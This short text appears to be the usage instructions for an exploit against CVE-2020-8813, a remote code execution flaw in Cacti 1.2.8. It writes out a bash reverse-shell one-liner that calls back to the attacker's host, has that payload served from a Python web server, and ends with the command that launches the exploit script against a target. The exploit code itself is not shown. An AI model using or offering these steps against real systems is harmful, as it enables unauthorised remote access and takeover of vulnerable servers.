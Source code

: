 #CVE: CVE-2020-8813
#Version: 1.2.8
#Cacti 1.2.8 RCE

Create a shell executable

    eg.: echo -ne 'bash -i >&/dev/tcp/LocalIP/PORT 0>&1' >shell

Start a Web-Server with your reverse shell inside webroot

    eg.: python3 -m http.server

Fire the exploit

    Usage: python3 expoit.py TargetIP LocalIP ShellName

